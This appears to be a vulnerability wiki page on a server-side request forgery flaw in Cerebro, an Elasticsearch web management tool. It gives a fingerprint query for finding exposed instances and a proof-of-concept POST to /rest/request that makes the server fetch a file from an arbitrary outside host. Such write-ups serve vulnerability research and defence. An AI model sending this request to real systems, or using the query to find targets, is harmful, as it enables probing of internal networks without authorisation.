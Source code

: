 # Cerebro request SSRF vulnerability

## Vulnerability Description

Cerebro is an open source Elasticsearch web visual management tool built using Scala, Play Framework, AngularJS and Bootstrap. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Cerebro</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="Cerebro"</span>

## Vulnerability reappears

Main page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1643621805930-c98b1f7a-e9b0-452d-b4b1-0ac1e99f7084.png)

Send a request packet

```go
POST /rest/request

{"method":"GET","data":"","path":"robots.txt","host":"https://www.baidu.com"}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1643622217572-65a71fc9-e87d-4c76-8848-515c854ea959.png)